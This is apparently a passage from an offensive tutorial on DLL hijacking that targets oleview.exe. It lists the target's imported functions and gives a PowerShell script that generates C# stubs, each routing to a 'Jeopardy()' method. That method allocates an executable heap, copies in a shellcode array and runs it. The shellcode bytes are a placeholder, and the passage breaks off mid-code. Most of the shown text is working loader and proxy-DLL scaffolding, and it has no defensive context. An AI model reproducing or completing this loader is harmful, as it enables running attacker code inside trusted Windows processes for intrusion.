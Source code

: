 2. **PowerShell Alternative**:
   - If you prefer to use PowerShell, you can enumerate the DLLs and functions using the following command:
     ```powershell
     Get-PEFunctionList -Path "C:\Path\To\oleview.exe"
     ```
   - This assumes you have a function or script like `Get-PEFunctionList` that can parse PE files. There are community scripts available or you can write a custom one using the .NET `System.Reflection.PortableExecutable` namespace.

### **Step 2: Create a C# Program to Mimic the Functions**
Using the gathered list of required functions, create a C# program where each function simply calls a method named `Jeopardy()`.

#### **C# Program Structure**
1. **Install the `DllExport` NuGet Package**:
   - Use the `DllExport` package to export functions from your C# DLL.
   - Install the package via NuGet Package Manager:
     ```bash
     Install-Package DllExport -Version 1.6.3
     ```
   
2. **Generate C# Code to Mimic the Functions**
   Here is a PowerShell script that generates the C# code:

```powershell
param (
    [string]$OutputFile = "MimicDll.cs",
    [string[]]$Functions = @("Function1", "Function2", "Function3") # Replace with actual function names
)

function Generate-CSharpCode {
    param (
        [string[]]$Functions
    )

    $template = @"
using System;
using System.Runtime.InteropServices;
using System.Security;

public class MimicDll
{
    // Method to be called by all exported functions
    [SuppressUnmanagedCodeSecurity]
    private static void Jeopardy()
    {
        // Shellcode injection and execution logic
        byte[] shellcode = new byte[] { /* Your shellcode here */ };

        IntPtr heap = HeapCreate(0x00040000, (UIntPtr)shellcode.Length, UIntPtr.Zero);
        IntPtr addr = HeapAlloc(heap, 0x00000008, (UIntPtr)shellcode.Length);

        Marshal.Copy(shellcode, 0, addr, shellcode.Length);
        var execute = (Action)Marshal.GetDelegateForFunctionPointer(addr, typeof(Action));
        execute();
    }

    [DllImport("kernel32.dll")]
    public static extern IntPtr HeapCreate(uint flOptions, UIntPtr dwInitialSize, UIntPtr dwMaximumSize);

    [DllImport("kernel32.dll")]
```